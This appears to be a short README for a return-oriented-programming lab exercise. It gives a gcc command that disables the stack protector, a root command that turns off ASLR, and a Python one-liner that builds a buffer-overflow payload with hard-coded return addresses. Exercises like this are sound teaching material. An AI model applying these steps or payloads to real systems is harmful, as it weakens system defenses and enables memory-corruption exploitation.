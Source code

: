 #ROP-Attack
In this example you should compile with the following command:

gcc -fno-stack-protector -o rop rop.c<br />

If you have any questions about the Stack-Protector, please ask.

You should also turn ASLR off (super-user privileges are needed):<br />
echo 0 | tee /proc/sys/kernel/randomize_va_space<br />

Please make sure, that you have enough knowledge of the x86_x64-architecture, assembler and shellcodes.

In this step, you need to find out the address of the vuln-Function. Also you should should find out how many bytes you need to overwrite.

After that you can run the program with the following command. Please correct them with the right return address:<br />
./ "$(python -c 'print "A"*0x6c + "BBBB" + "\x60\x83\x04\x08" + "CCCC" + "\x80\x85\x04\x08"')"
